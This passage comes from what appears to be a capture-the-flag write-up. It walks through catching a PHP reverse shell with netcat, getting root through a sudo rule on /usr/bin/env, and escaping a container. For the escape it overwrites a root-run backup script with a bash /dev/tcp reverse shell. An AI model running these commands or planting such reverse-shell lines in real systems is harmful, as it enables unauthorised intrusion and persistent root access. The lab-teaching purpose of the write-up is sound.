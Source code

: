 Before we open the file, we have to listen for incoming connection on the port we defined in the php shell on our machine:

```bash
nc -lnvp {PORT}
```

Then open the shell on the server:

```bash
http://$IP/shell.php
```

Sadly we can’t stabilize that shell with some poor mans pentest, because python is not installed.

## Getting Root

Let’s just run some code to see if there are some SUIDs we can run:

```bash
sudo -l
```

As you can see we can run /usr/bin/env with no password.

{% asset_img sudo.png %}

Give it a search on GTFOBins to see how we can get a root shell:

{% asset_img gtfobins.png %}

And there you go, you got a root shell!

{% asset_img whoamiroot.png %}

### Flag 3

The 3rd flag is in the **/root** directory. You can just cat it out, just like the previous ones.

{% asset_img flag3.png %}

### Flag 4

The problem with the 4th flag is, that it is outside of this container. This might sound confusing, but the essence is, is that we just have to get another shell.

In /opt/backups we can se that there is a backup script that is run regularly to generate a backup.tar file. Let’s use this to genreate another reverse shell outside of this container.

We can easily exploit, that this script is run every other minute with root privileges, by inserting some code that will generate a reverse connection to us.<br/>To insert this code into the script, simply run this:

```bash
echo "#!/bin/bash" > /opt/backups/backup.sh
echo "/bin/bash -c 'bash -i >& /dev/tcp/{TUN0}/8888 0>&1'" >> /opt/backups/backup.sh
```

And listen on port 8888 on your machine:

```bash
nc -lnvp 8888
```
